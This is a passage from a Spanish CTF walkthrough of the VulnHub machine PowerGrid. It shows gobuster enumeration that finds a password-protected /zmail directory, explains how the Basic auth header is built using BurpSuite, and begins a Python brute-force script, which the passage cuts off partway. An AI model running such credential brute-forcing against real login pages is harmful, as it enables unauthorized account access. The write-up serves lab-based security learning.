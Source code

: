 ```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://192.168.0.37/images/]
/zmail                (Status: 401) [Size: 459]
```
# Fase de Explotación

Vemos el directorio **/zmail** y tratamos de acceder a él, nos encontramos con que necesitamos autentificarnos, en la descripción de la máquina ya nos dejaba entre ver que podía ser posible que necesitásemos hacer uso de la fuerza bruta, podríamos hacerlo con herramientas con hydra por ejemplo, pero en esta ocasión haremos un script en **Python**3.

Lo primero que haremos será interceptar la petición con **BurpSuite**, la mandaremos al repeater con **CTRL+R** 

[<img src="/assets/images/vulnhub/PowerGrid/captura2.png">](/assets/images/vulnhub/PowerGrid/captura2.png)
En color azul podemos ver como se manda la **Authorization** y el patrón que se emplea, en este caso se manda con este formato test:test y luego se codifica en **Base64** y se envia al servidor con el método GET, en rojo vemos la respuesta del servidor que es **401 unauthorized** nos fijaremos en todo esto para hacer el script en Python
```python
#!/usr/bin/env python3

import requests
import sys
import signal
import time
from base64 import b64encode
from pwn import log

def ctrlc(signal, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, ctrlc)

main_url = "http://ip/zmail"

def make_authentication(cadenab64, user, password, p1):
    cadenab64 = cadenab64.decode()
    headers = {
        'Authorization': 'Basic %s' % cadenab64
    }
    try:
```